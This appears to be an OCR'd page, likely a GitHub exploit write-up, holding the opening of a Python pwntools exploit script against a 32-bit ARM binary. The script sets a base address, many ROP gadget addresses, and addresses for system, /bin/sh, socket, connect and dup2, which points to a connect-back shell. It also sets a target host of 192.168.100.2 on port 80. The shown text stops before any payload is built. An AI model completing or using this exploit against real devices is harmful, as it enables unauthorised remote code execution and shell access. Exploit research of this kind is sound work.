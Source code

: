 Exploit with following script in local:
```python
#!/usr/bin/env python3

from pwn import *
import argparse
import os
import struct
import socket
from urllib.parse import quote_plus as urlencode
import threading

context.arch = 'arm'
context.bits = 32
context.endian = 'little'
context.log_level = 'error'

# Base address
base_address = 0xff737000 # (local) 0x40000000  # 0xff737000 

# Calculating virtual addresses
g_pop_r4_ea = base_address + 0x0000bac4  # null
g_mov_r0_r4_ea = base_address + 0x00015ed8
g_ldr_r0_r4_ea = base_address + 0x0001b714
g_mov_r0_0_ea = base_address + 0x0000eef0 # null 
g_pop_r1_ea = base_address + 0x000129e4
g_add_r0_2_ea = base_address + 0x000300f4 # null
g_add_r1_1_ea = base_address + 0x00030b48
g_add_r1_1_with_cmp_ea = base_address + 0x000305a8

g_mov_r1_0_ea = base_address + 0x0003a6d8
g_add_r1_1_with_r0_cmp_ea = base_address + 0x000305a8
g_add_r0_2_ea = base_address + 0x000300f4
g_mov_r2_0_ea = base_address + 0x00030d30
g_str_r0_r4_ea = base_address + 0x0002ae30
g_pop_r4_r6_r7_ea = base_address + 0x0001f3d8 
g_pop_r1_r2_r3_ea = base_address + 0x000129e4
g_pop_r3_ea = base_address + 0x00016298
g_add_r2_1_ea = base_address + 0x00029110
g_strb_r0_r4_ea = base_address + 0x0003a4a4 

dup2_ea = base_address + 0xb328 + 4 # +4 to skip PUSH {R7, LR} # null
binsh_ea = base_address + 0x46080 
system_ea = base_address + 0x438dc + 4 
socket_ea = base_address + 0x3a240 + 4 
connect_ea = base_address + 0x39bd8 + 4
exit_ea = base_address + 0x3f2dc + 4
execve_stub_ea = base_address + 0x43584 

stack_buf_data_start = 0xfffeae10
stack_sin_ea = stack_buf_data_start + 0x10   # 0xfffeae20
stack_dummy_ea = stack_buf_data_start 
stack_csock_ea = stack_buf_data_start + 0x24


HOST = ('192.168.100.2', 80)

def parse_host(host):
    try:
        ip, port = host.split(":")
    except:
        raise argparse.ArgumentTypeError("host must be in format <ip>:<port>")
    return (ip, int(port))

```